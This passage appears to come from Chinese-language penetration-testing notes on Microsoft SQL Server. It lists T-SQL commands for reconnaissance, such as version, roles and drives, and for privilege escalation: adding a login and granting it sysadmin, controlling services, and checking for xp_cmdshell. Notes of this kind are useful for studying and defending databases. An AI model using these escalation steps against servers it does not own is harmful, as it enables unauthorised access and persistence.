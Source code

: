 * 查看数据库版本

  ```
  select @@version
  ```

* 查看数据库系统参数

  ```
  exec master...xp_msver
  ```

* 查看用户所属角色信息

  ```
  sp_helpsrvrolemem
  ```

* 查看当前数据库 

  ```
  select db_name()
  ```

* 显示机器上的驱动器

  ```
  xp_availblemedia
  ```

**5.1.3 常见的提权命令**

* 查看当前用户权限

  ```
  select IS_SRVROLEMEMBER('sysadmin')
  类似： serveradmin、setupadmin、securityadmin、diskadmin、bulkadmin、select IS_MEMBER('db_owner')
  ```

* 添加用户

  ```
  exec master.dbo.sp_addlogin test,password   # 添加用户
  exec master.dbo.sp_addsrvrolemember test,sysadmin # 加权限
  ```

* 启动停止服务

  ```
  exec master..xp_servicecontrol 'stop','test'
  exec master..xp_servicecontrol 'start','test'
  ```

* 检查功能

  ```
  SELECT count(*) FROM master.dbo.sysobjects WHERE name='xp_cmdshell'
  xp_cmdshell、xp_regread、sp_makewebtask、xp_subdirs、xp_dirtree、sp_addextendeproc
  ```

[![Dl5dYR.md.png](https://s3.ax1x.com/2020/11/21/Dl5dYR.md.png)](https://imgchr.com/i/Dl5dYR)

[![Dl56mD.md.png](https://s3.ax1x.com/2020/11/21/Dl56mD.md.png)](https://imgchr.com/i/Dl56mD)
